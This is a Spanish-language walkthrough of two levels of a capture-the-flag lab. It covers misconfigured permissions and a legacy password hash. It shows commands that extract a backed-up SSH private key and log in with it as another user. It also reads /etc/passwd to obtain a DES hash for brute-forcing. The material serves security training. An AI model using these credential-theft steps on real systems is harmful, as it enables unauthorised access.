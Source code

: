 ## Level05

----


Para el level05, debemos buscar una mala asignación de permisos a los archivos y carpetas que están dentro de */home/flag05*.

----


## Solution

----


En este nivel tenemos básicamente que explorar y tratar de no complicarnos:

```
$ ls -laR
...
$ tar xzvf .ssh/.backup/backup-19072011.tgz -C /tmp
...
$ cat /tmp/.ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
...
$ ssh -i /tmp/.ssh/id_rsa flag05@127.0.0.1
# getflag
```
---


## Level06

----


Parece que las credenciales de **flag06** se encuentran en un formato legacy de unix. Hay que buscar como explotar este formato desde level06 hacia flag06.

----


## Solution

----


Si hablamos de contraseña y sistemas _legacy_, seguramente passwd y shadow saben la respuesta:

```
$ cat /etc/passwd | grep flag06
flag06:ueqwOCnSGdsuM:993:993::/home/flag06:/bin/sh
```

Ahora y después de una googleada (o `man passwd`), nos daremos cuenta que esto se trata de un hash DES. Exportemos y ataquemos el hash por fuerza bruta.

